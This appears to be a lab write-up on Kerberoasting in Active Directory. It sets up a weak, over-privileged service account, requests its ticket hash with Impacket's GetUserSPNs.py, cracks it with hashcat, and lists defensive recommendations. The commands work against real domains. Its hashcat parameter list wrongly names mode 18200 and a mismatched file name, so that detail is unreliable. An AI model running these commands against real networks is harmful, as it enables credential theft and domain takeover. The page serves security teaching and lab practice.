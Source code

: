 # Kerberoasting

## Configuring



1. Login to `DC01` with the `Administrator` user and the password `Welcome01!`.
2. Open PowerShell as administrator and execute the following commands to create a user with the name `sa_admin` and set a SPN for it:

```
net user sa_admin Welcome123456! /add
setspn -A MSSQLsvc/DC03:1433 sa_admin
```

3\. Execute the following command to make the user `Enterprise Admin` and `Domain Admin`:

```
Add-ADGroupMember -Identity "Enterprise Admins" -Members sa_admin
Add-ADGroupMember -Identity "Domain Admins" -Members sa_admin
```

## Attacking

### How it works

> Service principal names (SPNs) are used to uniquely identify each instance of a Windows service. To enable authentication, Kerberos requires that SPNs be associated with at least one service logon account (an account specifically tasked with running a service.
>
> Adversaries possessing a valid Kerberos ticket-granting ticket (TGT) may request one or more Kerberos ticket-granting service (TGS) service tickets for any SPN from a domain controller (DC). Portions of these tickets may be encrypted with the RC4 algorithm, meaning the Kerberos 5 TGS-REP etype 23 hash of the service account associated with the SPN is used as the private key and is thus vulnerable to offline Brute Force attacks that may expose plaintext credentials
>
> Source: [https://attack.mitre.org/techniques/T1558/003/](https://attack.mitre.org/techniques/T1558/003/)

### Tools

* [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py)

### Executing the attack

1. Use the discovered credentials `john` and password `Welcome2022!` with [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from Impacket to Kerberoast all roastable users.

```
python3 /opt/impacket/examples/GetUserSPNs.py 'amsterdam.bank.local/john:Welcome2022!' -dc-ip 10.0.0.2 -target-domain bank.local -outputfile kerberoast.txt
cat kerberoast.txt
```

![](<../../.gitbook/assets/image (14).png>)

2\. We retrieved one hash. Lets crack it with Hashcat. The parameters are:

* Crackingmode: `-a 0` for using a wordlist
* Hashmode: `-m 18200` for Kerberos 5, etype 23, AS-REP
* List with hashes: `kerberoasting.txt`
* Passwords list: `passwords.txt`
* Rule list: `-r rules.rule`

```
.\hashcat.exe -a 0 -m 13100 .\kerberoast.txt .\wordlists\rockyou.txt -r .\rules\dive.rule
```

![](<../../.gitbook/assets/image (34) (1) (1).png>)

We successfully cracked the password of the user `sa_admin`, the password is `Welcome123456!`

## Defending

### Recommendations

* Use [Group Managed Service Accounts or Managed Service Accounts.](https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview)
* Limit the privileges of Service Accounts.
* Use strong passwords (at least 32 characters) on service accounts.

### Detection



## References

{% embed url="https://attack.mitre.org/techniques/T1558/003/" %}

{% embed url="https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview" %}
